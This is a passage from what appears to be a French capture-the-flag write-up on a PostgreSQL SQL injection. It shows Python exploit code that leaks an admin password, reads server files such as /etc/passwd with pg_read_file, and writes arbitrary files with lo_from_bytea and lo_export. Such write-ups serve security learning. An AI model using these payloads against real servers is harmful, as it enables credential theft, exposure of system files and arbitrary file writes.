 #### File read
On peut utiliser la fonction ``pg_read_file`` pour lire des fichiers du serveur:
```python
class client:
    def __init__(self, url):
        ...

    def file_read(self, path):
        self.sqli(query=f"SELECT pg_read_file('{path}', 0, 200)")

...
c = client(url = 'http://<ip>:8080')
admin_passwd = c.leak_admin_password()
c.login('admin', admin_passwd)
c.file_read(path='/etc/passwd')
```

![Screen7](./img/screen7.png)

Malheuresement, le DockerFile spécifie cette ligne: ``RUN chmod 000 /flag`` qui empêche ici le serveur SQL de lire le contenu du flag.

#### File write
Toujours avec **query_to_xml**, on peut utiliser les fonctions: 
- lo_from_bytea
- lo_export
pour ecrire ce que l'on veut, ou l'on veut:

```python
from random import randint

class client:
    def __init__(self, url):
        ...

    def file_write(self, data, path):
        id_ = 43210+randint(1,99999)
        query = f'''
        encode(decode('{hexlify(data.encode()).decode()}', 'hex'),'escape')
        '''.strip()
        cmd = [
            f"SELECT lo_from_bytea({id_}, decode('{data.encode().hex()}', 'hex'))",
            f"SELECT lo_export({id_}, '{path}')"
        ]
        for c in cmd:
            self.sqli(query=c)

c = client(url = 'http://<ip>:8080')
admin_passwd = c.leak_admin_password()
c.login('admin', admin_passwd)
c.file_write(
    data='Hello World',
    path=f"/tmp/poc.txt"
)
```
